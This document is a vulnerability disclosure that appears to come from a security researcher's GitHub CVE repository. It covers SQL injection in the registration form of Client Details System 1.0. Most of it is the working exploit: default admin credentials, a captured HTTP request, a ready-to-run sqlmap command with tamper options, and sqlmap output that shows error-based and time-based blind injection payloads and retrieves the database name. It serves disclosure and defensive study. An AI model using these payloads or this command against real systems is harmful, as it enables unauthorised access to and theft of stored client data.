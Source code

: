 # Client_Details_System-SQL_Injection_3
+ **Exploit Title:** Client_Details_System-SQL_Injection_3
+ **Date:** 2023-26-12
+ **Exploit Author:** Hamdi Sevben
+ **Vendor Homepage:** https://code-projects.org/client-details-system-in-php-with-source-code/
+ **Software Link:** https://download-media.code-projects.org/2020/01/CLIENT_DETAILS_SYSTEM_IN_PHP_WITH_SOURCE_CODE.zip
+ **Version:** 1.0
+ **Tested on:** Windows 10 Pro + PHP 8.1.6, Apache 2.4.53
+ **CVE:** CVE-

## References: 

## Description:
Client Details System 1.0 allows SQL Injection via parameters 'fname', 'lname', 'email' and 'contact' in "/clientdetails/admin/regester.php". Exploiting this issue could allow an attacker to compromise the application, access or modify data,  or exploit latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to the Admin Panel: "http://localhost/clientdetails/admin/"
+ Fill User Id and Password with `admin`:`client123` and log in.
+ Create Users and Register New User: "http://localhost/clientdetails/admin/regester.php"
+ Intercept the request via Burp Suite and send to Repeater.
+ Copy and paste the request to a "r.txt" file.
+ Captured Burp request:
```
POST /clientdetails/admin/regester.php HTTP/1.1
Host: localhost
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-us,en;q=0.5
Cache-Control: no-cache
Content-Length: 812
Content-Type: multipart/form-data; boundary=3b3b38b05bde466ba84fe94108a576e4
Cookie: PHPSESSID=p5mgq2eci66sik6s94eakcjub9
Referer: http://localhost/clientdetails/admin/regester.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36

--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--

```

+ Use sqlmap to exploit. In sqlmap, use sequencely 'fname', 'lname', 'email' and 'contact' parameters to dump the database. 
```
python sqlmap.py -r r.txt -p fname --risk 3 --level 5 --threads 1 --random-agent tamper=between,randomcase --proxy="http://127.0.0.1:8080" --dbms mysql --batch --current-db
```

```
---
Parameter: MULTIPART fname ((custom) POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: --3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test'||(SELECT 0x63477861 WHERE 3950=3950 AND (SELECT 4777 FROM(SELECT COUNT(*),CONCAT(0x717a7a7071,(SELECT (ELT(4777=4777,1))),0x71767a7171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: --3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="lname"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="fname"

test'||(SELECT 0x495a4858 WHERE 5047=5047 AND (SELECT 3063 FROM (SELECT(SLEEP(5)))fSuo))||'
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="email"

test@mail.com
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="contact"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="password"

test
--3b3b38b05bde466ba84fe94108a576e4
Content-Disposition: form-data; name="signup"

Sign Up
--3b3b38b05bde466ba84fe94108a576e4--
---
[17:19:33] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.1.6, Apache 2.4.53
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[17:19:34] [INFO] fetching current database
[17:19:34] [INFO] retrieved: 'loginsystem'
current database: 'loginsystem'
```

+ current database: `loginsystem`
![3](https://github.com/h4md153v63n/CVEs/assets/5091265/ae5ce05b-ed9f-4e6b-a137-4b19fdf07850)
